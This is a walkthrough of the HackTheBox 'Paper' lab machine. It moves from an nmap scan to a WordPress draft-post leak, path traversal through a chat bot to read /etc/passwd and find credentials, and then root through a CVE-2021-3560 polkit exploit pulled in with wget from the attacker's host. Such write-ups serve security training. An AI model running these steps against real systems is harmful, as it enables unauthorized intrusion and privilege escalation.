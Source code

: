 # HackTheBox Paper Walkthrough

### NMAP Scan to start off

┌──(root㉿kali)-\[~\]
└─# nmap -A 10.10.11.143
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-26 09:25 EDT
Nmap scan report for 10.10.11.143
Host is up (0.031s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|\_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod\_fcgid/2.3.9)
|\_http-title: HTTP Server Test Page powered by CentOS
|\_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|\_  Potentially risky methods: TRACE
|\_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod\_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod\_fcgid/2.3.9)
| http-methods: 
|\_  Potentially risky methods: TRACE
|\_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|\_http-title: HTTP Server Test Page powered by CentOS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|\_Not valid after:  2022-07-08T10:32:34
| tls-alpn: 
|\_  http/1.1
|\_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod\_fcgid/2.3.9
|\_ssl-date: TLS randomness does not represent time
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

We have port 80 open. We'll start off by navigating to http://10.10.11.143

![](images/1-1024x637.png)

Nothing is interesting on the homepage.

Let's try running a directory search using Feroxbuster.

feroxbuster -u http://10.10.11.143 -x html json php txt

![](images/2-1024x753.png)

There's a manual subdirectory, but nothing interesting was found.

Let's try intercepting the GET request using BurpSuite.

![](images/3-1024x721.png)

There is information disclosure in the response.

X-Backend-Server: office.paper

We'll add the URL to our /etc/hosts and check out the link.

nano /etc/hosts

![](images/4.png)

It seems office.paper is some sort of blog.

![](images/5-1024x750.png)

We'll use the Wappalyzer extension to find out what technologies are running.

![](images/6.png)

The site is running WordPress 5.2.3. A quick google search gets us: WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts exploit. 

[https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2](https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2)

The exploit is very simple. We just have to add ?static=1 to the URL.

http://office.paper/?static=1

![](images/7-1024x839.png)

We got a piece of new information! 

Remember to add the new hostname chat.office.paper to your /etc/hosts/

Visiting the URL [http://chat.office.paper/register/8qozr226AhkCHZdyY](https://www.blogger.com/blog/post/edit/1821202635744511804/8903568251577251071#) gets us to some sort of chat registration.

![](images/8-1024x889.png)

Create a new account and log in.

We are in the #general chat. Scroll up to find the next piece of the puzzle.

![](images/9-1024x847.png)

DM recyclops with the command:

recyclops file ../../../../../../../etc/passwd

![](images/10-1024x993.png)

Scrolling down we get the username dwight.

By playing around with the command "list". We discover a file in "../hubot/env".

![](images/11.png)

Now we can ssh with our new credentials.

ssh dwight@10.10.11.143

![](images/12.png)

There's our first user flag.

\[dwight@paper ~\]$ cat user.txt

Now we'll need to see how we can escalate local privileges to root.  Let's try running LinPEAS.

We'll host a simple python server on our host machine(kali) so we can upload linpeas.sh to our target machine.

Host:

python -m SimpleHTTPServer

Victim:

wget 10.10.14.124:8000/linpeas.sh
--2022-05-26 11:54:35--  http://10.10.14.124:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

Scrolling through LinPEAS, we find a vulnerable CVE-2021-3560.

![](images/13-1024x652.png)

A quick Google search gets us a nice script on Github.

[https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/blob/main/poc.sh](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/blob/main/poc.sh)

Just copy/paste the raw code into nano on the victim machine. 

chmod +x
./exploit.sh

You may need to run it a few times to get it to work.

Default credentials are 'secnigma:secnigmaftw'.

su - secnigma

Enter password

sudo bash

and we're root!

![](images/14-1024x649.png)

cat /root/root.txt

And we're done!
